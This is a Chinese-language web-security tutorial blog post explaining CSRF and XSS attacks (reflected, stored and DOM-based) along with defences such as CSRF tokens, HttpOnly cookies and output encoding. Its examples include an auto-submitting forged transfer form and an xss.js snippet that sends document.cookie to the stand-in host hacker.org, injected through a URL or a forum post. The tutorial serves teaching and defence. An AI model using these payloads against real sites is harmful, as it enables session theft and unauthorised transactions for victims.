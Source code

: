 Title: CSRF攻击和XSS攻击
Date: 2018-11-27 23:59:46
Category: 技术
Tag: 安全
============================================================
### CSRF
>CSRF，全称Cross-site request forgery（跨站请求伪造），其原理是利用用户的身份，执行非用户本身意愿的操作(隐式身份验证机制)。
<!--more-->
#### 形式
图片URL、超链接、Form提交等，也可以嵌入到第三方论坛、文章中等地方。

#### 危害
攻击者可以盗用用户的身份，以用户的名义进行恶意操作，包括但不限于以用户的名义发送邮件、资金转账、网上等危害用户的操作

#### 原理

![CSRF攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/CSRF%E6%94%BB%E5%87%BB.pngCSRF%E6%94%BB%E5%87%BB.png?q-sign-algorithm=sha1&q-ak=AKIDBbUtX5sstztuoUafjFbj4fga7jJv6qop&q-sign-time=1543368820;1543370620&q-key-time=1543368820;1543370620&q-header-list=&q-url-param-list=&q-signature=92d0756bf98fdd7e3d5ec980617d69a9c7328f71&x-cos-security-token=01bdc2393eacf64d06aed42b934b056a4cb2afc410001)

假定受信的站点A是`http://example.org`，恶意站点B是`http://hacker.org`

1. 用户访问并登陆`http://example.org`；
2. 站点A生成并返回Cookie给用户；
3. 用户点击恶意网站B`http://hacker.org`提供的图片链接`< img src="http://example.org/transfer?amount=10&for=hacker">`（或者包含该图片的链接地址），如果此时站点A的Cookie未过期，那么浏览器就会带上Cookie并向站点A发起`http://example.org?amount=10&for=hacker`请求；
4. 由于发起请求带有用户的Cookie，站点A通过授信并进行相关的操作，造成相关损失。

上面使用的是通过`GET`请求冒用用户发起请求，不仅`GET`请求，`POST`也没法防止`CSRF`攻击，下面是一个自动提交表单的`CSRF`攻击。

```
<form action="http://example.org/transfer" method="POST">
    <input type="hidden" name="amount" value="10">
    <input type="hidden" name="for" value="hacker">
</form>
<script>document.forms[0].submit()</script>
```
用户在打开这个页面后，该表单请求会自动提交，相当于用户自己进行了一次POST请求。

####防御
##### 1.验证码
>最有效的防御方法

CSRF的原理是**在用户毫不知情的情况下发起了网络请求**，而验证码强制用户要与应用进行交互，才能提交请求。
但处处使用验证码对于用户来说是一件体验很差的事情。

##### 2.检验请求头部Refer字段
>Refer用来记录该HTTP请求的来源地址

通过Refer可以保证用户的请求来自我们相信的页面地址。但是，Refer字段是由用户浏览器提供的，不同的浏览器实现各有差异，并且有些浏览器处于保护用户隐私，并不会发送Rfer字段。
因此使用Refer字段来防御CSRF有一定的限制，但从该字段可以用来监控CSRF攻击的发生。

##### 3.CSRF Token

CSRF之所以能够成功，是因为**攻击者知道攻击所需要的所有参数，因此能够构造完整请求**，因此服务器会把攻击者的请求误认为是用户发起的请求。
那么如果每次请求都让用户带上一个攻击者无法获取到的随机数，那么攻击者就无法构造完全的请求，服务器也能将攻击者的请求和用户的请求给区分开，这就是`CSRF Token`。

CSRF Token的过程：
1. 服务器生成随机数Token（该随机数生成方法要足够安全），并将该随机Token保存在用户Session（或Cookie中）；
2. 同时，服务器在生成表单提交页面的同时，需要将改Token嵌入到表单DOM（通常作为一个隐藏的input标签值，如`<input type="hidden" name="_csrf_token" value="xxxx">`）中；
3. 用户在提交表单时，该Token会随着表单数据一起提交到服务器，服务器检测提交的Token是否与用户Session（或Cookie）中的是否一致，如果不一致或者为空，则表示非法请求；否则认为是一个合法请求。

由于攻击者得到该随机Token，因此无法构造完整请求，所以可以用来防止CSRF攻击。**但是如果网站存在XSS攻击，那么该防范方法会失效，因为攻击者可以获取到用户的Cookie，从而构造完成的请求，这个过程称为XSRF。**使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以Form或AJAX形式提交，避免Token泄露。

CSRF是代替用户完成指定的动作，不直接窃取用户数据，而是代替用户发起请求，但需要知道其他用户页面的代码和数据包。

### XSS攻击
>XSS, 全称是Cross site script，即跨站脚本，为了避免与CSS，因此简称XSS

#### 形式
利用网站对用户输入没有进行限制或过滤，从而在页面中嵌入某些代码，当别的用法访问到该网页时，会执行对应的代码，从而使得攻击者可以获取

#### 危害
由于Cookie已经被攻击者获取，因此攻击可以登录账号，进行相关操作，如更改信息、转账、删除数据等敏感操作。

#### 原理
主要原因：太过于新人用户的输入

##### 反射型XSS攻击
>最常见的XSS请求攻击，将XSS攻击代码放在链接上，由用户点击触发使服务器返回XSS攻击代码，并在客户端执行，从而发起Web攻击。

![反射型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%8F%8D%E5%B0%84%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

`http://example.org?search=hello,world`：
对于该请求，服务器会将`hello,world`回显到页面中返回给客户端，客户端会显示`hello,world`。

`http://example.org?search=<script>alter('I get you!')</script>`：
对于该请求，如果服务器对输入没有进行任何处理，那么对于，那么js代码`<script>alter('I get you!')</script>`会嵌入到页面中，客户端再渲染页面的时候回执行该js代码，并弹出alter框。

`http://example.org?search=<script>src='http://hacker.com/xss.js'</script>`

```
//xss.js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://hacker.org/xss?cookie='+encodeURIComponent(document.cookie);
```

这样将用户在点击上述连接的时候，浏览器会自动引入`xss.js`文件，并执行其中js语句，里面的js语句会读取用户Cookie，并将其作为参数访问Get请求的页面，然后Cookie就会发送给攻击者。

###### 存储型XSS攻击
>与发射型不同的是，存储型XSS攻击的攻击代码是存在在网站数据库，当包含该攻击代码的页面被用户打开时，该脚本会自动运行，将打开该网页的所有用户的Cookie发送给攻击者。

![存储型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

假设有一个论坛允许用户留言并且对用户的输入不进行处理，那么攻击者在该网站的某个帖子下面留以下信息。

```
哈哈哈，有趣有趣
<script>src='http://hacker.com/xss.js'</script>
```

网站将该留言存储到数据库，那么之后每个在访问包含上述留言的用户的Cookie都会被发往攻击者。

###### Dom Based XSS
>这种类型的攻击与反射型有点类似，区别在于用户的输入并不是由服务器来返回，主要是由客户端通过DOM动态的输出数据到页面，从客户端获得DOM的数据在本地执行。

```
<HTML>
<TITLE>Welcome!</TITLE>
Hi
<SCRIPT>
var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
</SCRIPT>
<BR>
Welcome to our system
…
</HTML>
```

该页面中的某些数据是从URL中解析的，比如下面的一个请求`http://hacker.org/welcome.html?name=<script>src='http://hacker.com/xss.js'</script>`。用户在点击这个请求的时候，本地浏览器回从URL中获取name属性并填充到HTML中，从而引起XSS攻击。



#### 防御
主要解决方案：不信任用户输入的所有数据

1. 设置Cookie的属性为`Http only`，这样js就无法获取Cookie值；
2. 严格检查表单提交的类型，并且后端服务一定要做，不能信任前段的数据；
3. 对用户提交的数据就行`Html encode`处理，将其转化为HTML实体字符的普通文本；
4. 过滤或移除特殊的HTML标签，如`<script>`、`<iframe>`等；
5. 过滤js事件的标签，如`onclick=`、`onfoucs=`等、


#### Refer
1. [白帽子讲Web安全（纪念版）](https://item.jd.com/11483966.html)
2. [浅谈CSRF攻击方式](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)
3. [Web安全相关（二）：跨站请求伪造（CSRF/XSRF）](https://www.cnblogs.com/Erik_Xu/p/5481441.html)
4. [CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)
5. [XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)
6. [【web安全】第一弹：利用xss注入获取cookie](https://www.cnblogs.com/adelaide/articles/6035015.html)

